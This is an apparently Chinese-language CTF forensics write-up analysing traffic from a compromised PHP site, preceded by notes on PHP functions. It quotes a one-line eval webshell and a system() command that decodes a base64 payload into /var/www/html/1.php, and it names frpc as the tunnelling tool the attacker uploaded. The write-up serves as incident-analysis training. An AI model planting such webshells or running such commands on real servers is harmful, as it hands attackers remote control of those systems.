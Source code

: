 - ob函数

  - [PHP详解ob_clean,ob_start和ob_get_contents函数](https://www.cnblogs.com/xuzhengzong/p/7240809.html)

  - start：开始记录要输出的东西，==并且所有输出放缓存区而不是浏览器！==

  - get_contents(); 取出从ob_start()函数开始的地方到这个函数之间所有输出的内容并连在一起

  - ⚠注意：start后，在任何时候使用echo ，输出都将被加入缓冲区中，直到程序运行结束或者使用ob_flush()来结束。然后在服务器中缓冲区的内容才会发送到浏览器，由浏览器来解析显示。

- try catch ：php异常处理

  - Exception：异常

  - 将要执行的代码放入TRY块中,如果这些代码执行过程中某一条语句发生异常,则程序直接跳转到CATCH块中,由$e收集错误信息和显示

  - 参考：[**PHP 异常处理**](https://www.runoob.com/php/php-exception.html)

- php_uname — 返回运行 PHP 的系统的有关信息

  - 参数没有或为a时默认返回全部信息即操作系统名称、主机名、版本名称、版本信息、机器类型，eg：`Linux localhost 2.4.21-0.13mdk #1 Fri Mar 14 15:08:06 EST 2003 i686`,而`echo PHP_OS`只返回Linux

- substr

  - 字符串中的第一个字符的索引为 0，第三个参数表示截取长度没有则一直到结尾

- urldecode(),解码字符串中的 %16进制【url编码就是%+16进制数】



### 解题✍

- 3.1黑客登录系统使用的密码是？

  - 搜索password，在分组详情里，找到password为Admin123!@#

- 3.2黑客修改了一个日志文件，文件的绝对路径为？。（请确认绝对路径后再提交）

  - 继续找POST，发现日志文件路径data/Runtime/Logs/Home/21_08_07.log

- 3.3黑客获取webshell之后，权限是______？

  - 继续找POST，发现317包有系统命令whoami，**回答经对比发现是在<!DOCUMENT>前default/后,权限是www-data**，【<span style="background:#FF9999;">⚠权限无非一般就是www-data,或者root</span>】

    ![img](https://api2.mubu.com/v3/document_image/fd8c652a-92b4-42d3-a258-1c829ab1f177-11812322.jpg)![img](https://api2.mubu.com/v3/document_image/47c95dc1-d440-4d68-9d7b-6b69f7a37fdd-11812322.jpg)![img](https://api2.mubu.com/v3/document_image/0959a132-4a15-4839-a182-28653be2a2de-11812322.jpg)

- 3.4黑客写入的webshell文件名是_____________。(请提交带有文件后缀的文件名，例如x.txt)

  - 发现base64的一句话木马，`<?php eval($_REQUEST[aaa]);?>`，`"aaa" = "system('echo PDxxxxxxxxxxxxx|base64 -d > /var/www/html/1.php')"`则文件名是1.php

    ![img](https://api2.mubu.com/v3/document_image/9d7dc7f0-0f95-46e8-bbfc-ad7309c1ff43-11812322.jpg)

- 3.5黑客上传的代理工具客户端名字是______frpc_______。（如有字母请全部使用小写）

  - 后分析POST包，代码审计，**substr去掉前两位**base64解密=》L3Zhci93d3cvaHRtbC9mcnBjLmluaQ== =》 /var/www/html/frpc.ini  =》==frpc：为反向代理内网穿透常用工具==，注意：之前的value`&j68071301598f=HdL3Zhci93d3cvaHRtbC8=;=>L3Zhci93d3cvaHRtbC8=   =>/var/www/html/`无效！

    - 响应包的文件信息，也可以看到代理文件=》frpc
